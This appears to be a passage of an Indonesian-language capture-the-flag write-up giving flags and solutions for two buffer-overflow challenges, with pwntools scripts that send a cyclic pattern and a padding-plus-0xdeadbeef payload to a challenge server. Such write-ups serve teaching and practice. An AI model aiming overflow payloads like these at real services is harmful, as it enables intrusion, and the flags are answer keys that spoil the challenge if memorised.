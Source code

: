 
### Flag
```text
ADIKARACTF{noM_y0u_kn0w_what_is_polygots?_19adf}
```

# Binary Exploitation
## Binary Exploitation#1
### Description
![image](https://github.com/user-attachments/assets/bc11982e-3901-4aa8-b41d-12405c02bb42)

### Solve
Diberikan 2 file, yang pertama file binary `vuln` dan yang kedua file `vuln.c`. Dichallenge ini kita harus mengirimkan data yang cukup besar untuk memicu buffer overflow. dan juga overwrite nilai variabel `overflow_me` untuk memecahkan tantangan. Kita bisa menyelesaikan challenge ini menggunakan script python berikut (dan juga penjelasannya)
```python
from pwn import *

# Hubungkan ke server target menggunakan fungsi remote()
conn = remote('117.53.47.247', 50010)

# Buat pola cyclic untuk menemukan offset
pattern = cyclic(100)  # Pola 100 byte untuk memicu buffer overflow

# Kirimkan pola cyclic ke server
conn.sendline(pattern)

# Menerima dan print respon dari server
print(conn.recvall().decode())
```

Ketika dijalankan kita akan mendapatkan output berikut
![image](https://github.com/user-attachments/assets/7ec8cd1d-5604-4143-be76-8f7d4864595f)


### Flag
```text
ADIKARACTF{OoO_ez_overflow_part_1_1fa032}
```

## Binary Exploitation#2
### Description
![image](https://github.com/user-attachments/assets/98938f1d-be54-4a83-965f-de1dab561a68)

### Solve
File pada challenge ini sama dengan file sebelumnya cuman bedanya kita mengirim payload yang mengubah nilai overflow_me menjadi `0xdeadbeef`, sehingga server akan memberikan flag. Berikut 
```
from pwn import *

# Hubungkan ke server target menggunakan fungsi remote()
conn = remote('117.53.47.247', 50010)

# Buat payload: 72 byte buffer + 0xdeadbeef (little-endian)
payload = b'A'*72 + p64(0xdeadbeef)

# Kirimkan payload ke server
conn.sendline(payload)
```